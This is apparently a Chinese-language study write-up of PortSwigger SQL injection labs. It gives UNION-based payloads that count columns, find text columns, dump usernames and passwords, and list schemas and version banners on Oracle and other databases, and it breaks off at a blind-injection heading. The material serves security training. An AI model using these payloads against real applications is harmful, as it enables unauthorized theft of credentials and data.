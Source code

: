 ## SQL-Injection

[TOC]

#### [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

#### 1. SQL injection UNION attack, determining the number of columns returned by the query

先用`order by`测出来列数是3。

然后用`union select 1,2,3`啥都出不来。

我的payload是：`/filter?category=' union select 1,2,3--`。

因为啥都不出来，直接报错，我就去看了一下官方给的payload：`/filter?category=' union select null,null,null--`

还能这样？最后一个一个的试才发现，1和2的位置填数字会报错，3的位置可以填。但是填`null`是比较稳妥的方案。

#### 2. SQL injection UNION attack, finding a column containing text

还是先用`order by`测出来列数是3。

经过测试：`/filter?category=' union select 1,'sss',3--`

![2.1](sql-injection-burp.assets/2.1.png)

已经找到包含文本的列：第二列。

但是不给过。

居然要输入他给的字符串：`' union select 1,'VaRkKi',3--`

#### 3. SQL injection UNION attack, retrieving data from other tables

题目要求：

> The database contains a different table called `users`, with columns called `username` and `password`.
>
> To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

用`order by`测出来有两列。

payload:`/filter?category=%27%20union%20select%20username,password%20from%20users--`

#### 4. SQL injection UNION attack, retrieving multiple values in a single column

1. 找出列数。
2. 找出哪一列可以用
3. concat或者用`||`连接。

payload:

1. `/filter?category=' union select null,concat(username,password) from users--`
2. `/filter?category=' union select null,username||'~'||password from users--`

#### 5. SQL injection attack, querying the database type and version on Oracle

> 在Oracle数据库上，每个`SELECT`语句都必须指定要选择的表`FROM`。如果您的`UNION SELECT`攻击没有从表中查询，您仍然需要在`FROM`关键字后面加上有效的表名。Oracle上有一个内置表称为DUAL，您可以将其用于此目的。例如：`UNION SELECT 'abc' FROM DUAL`

已经提示了使用的Oracle数据库。

题目要求：

```
Make the database retrieve the strings: 
'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production'
```

payload：`/filter?category=' union select null,banner from v$version--`

`banner`在sheet里面去找。

#### 6. SQL injection attack, querying the database type and version on MySQL and Microsoft

这道题不知道是啥问题，一直不行，状态码一直是500。后面来做吧。

我觉得payload大概率就是：`' union select null,@@version--`

官方的payload：`'+UNION+SELECT+@@version,+NULL#`

#### 7. SQL injection attack, listing the database contents on non-Oracle databases

先用order by得到列数是2。

`category='+order+by+2--`

经过测试，发现两列都能用。

`category='+union+select+'abc','def'--`

查找表名：

`category=%27+union+select+table_name,null+from+information_schema.tables--`

查找列名：

`category=%27+union+select+column_name,null+from+information_schema.columns+where+table_name='users_hgcvqp'--`

查找信息：

`category=%27+union+select+username_jjuqsb,password_pygkri+from+users_hgcvqp--`

最后登录administrator。

#### 8. SQL injection attack, listing the database contents on Oracle

Oracle数据库的结构不一样。

> cheat sheet里得到的信息：
> SELECT * FROM all_tables
> SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

用order by测得列数为2。

查找表名：

`category=%27+union+select+table_name,null+from+all_tables--`

查找列名：

`category=%27+union+select+column_name,null+from+all_tab_columns+where+table_name='USERS_SDGZSD'--`

查找信息：

`category=%27+union+select+USERNAME_XLKHFA,PASSWORD_CUQKST+from+USERS_SDGZSD--`

最后登录administrator。

#### 9. Blind SQL injection with conditional responses

